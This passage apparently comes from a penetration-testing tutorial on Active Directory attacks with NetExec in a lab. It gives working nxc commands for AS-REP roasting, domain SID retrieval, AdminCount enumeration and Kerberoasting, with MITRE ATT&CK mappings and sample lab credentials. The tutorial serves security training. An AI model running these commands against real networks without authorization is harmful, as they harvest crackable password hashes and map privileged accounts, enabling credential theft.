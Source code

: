 ![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEiau8LA9-oXNtgF5jGcffqTfk5Shm9TcrSSptgkXVzfu9XgfaqwYoTdO0iQT5j6wlsTjBz9tks0-VcCMAT7z7XsRrKWh78wBywwSRFsKMdacS7QPcHWlLz2qRGw-dHCUHvCbhYaDhG8Rc9QDrb8vyskqo41PZfOGTR1j1rGBkz5-TkoNn7bmj3UzxVHS4wV/s16000/8.png)

**With a list of users**:

```bash
nxc ldap 192.168.1.48 -u "users.txt" -p '' --asreproast output.txt
```

![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEiLjXOW2TKgu_dukWI-2IhL4hZ9M08Zu_Lw9WHPha9nI8ne0ZdO28w1Tg53hk2sNmQfcHEUoSjdbDnxLwv7lLezTjypXnjedhmLMxG_WvtPtb-uwBl4KmbbZJRTFvixl_v7RTfPGdwUT3FdqM00ASBLTbnSfc1-80taiSc_v3jIpRCNHZnPqDHvmjX2EhQA/s16000/9.png)

**Explanation**:

- –asreproast output.txt: Extracts ASREP (Kerberos Pre-Authentication) hashes and saves them to output.txt.
- –dns-server: Specifies the DNS server to resolve domain names.

**MITRE ATT&CK Mapping**:

**T1558.001** – Kerberos Ticket Extraction.

### Find Domain SID

**Purpose**: Retrieves the Domain Security Identifier (SID), which is a unique identifier for the domain.

```bash
nxc ldap 192.168.1.48 -u raj -p Password@1 --get-sid
``` 

![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEivgIjNm4FScldmaxyThSxdlvAq5YSYaq_uOQpkgbns4uaRwAit2-R4NSHGx6ndc-_eVKFvlMpN8ZVw4hse4clCpSICJVSFEG1CIExqjioypKUNHh-l6kp6ytuygFExJVP1o2TN9dM8dR3sbLa8PcVzrUwC1cpXGEjtjeJXkgIxjSdpiuqIRFTXuZIYPdXL/s16000/10.png)

**MITRE ATT&CK Mapping**:

**T1071** – Application Layer Protocol: LDAP. The Domain SID is important for NTLM relay and privilege escalation attacks.

### Admin Count Enumeration

**Purpose**: Identifies high-privilege accounts such as Domain Admins by checking the AdminCount attribute.

```bash
nxc ldap 192.168.1.48 -u raj -p Password@1 --admin-count
```

![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjJyPd19W56QBqaqjTeYLgfFXjyDIoED5iWjzgjVF8tGEHHN0dg74BMPhn3UGXlTVnjOLCKuxvOIqmblW8i8RnYmw5JZ_A6eWdZLcofNqghrWHrfprapZExlpsKdKCulLQalzkZDJtoBhpTbHwHaag9GexJcVve2vaMIWiOe6-NqCyfViQkbCB-1Ol62edj/s16000/11.png)

**MITRE ATT&CK Mapping**:

**T1087** – Account Discovery.

### Kerberoasting

**Purpose**: Kerberoasting extracts service account hashes by requesting service tickets for accounts with SPNs (Service Principal Names).

```bash
nxc ldap 192.168.1.48 -u raj -p Password@1 --kerberoasting hash.txt
``` 
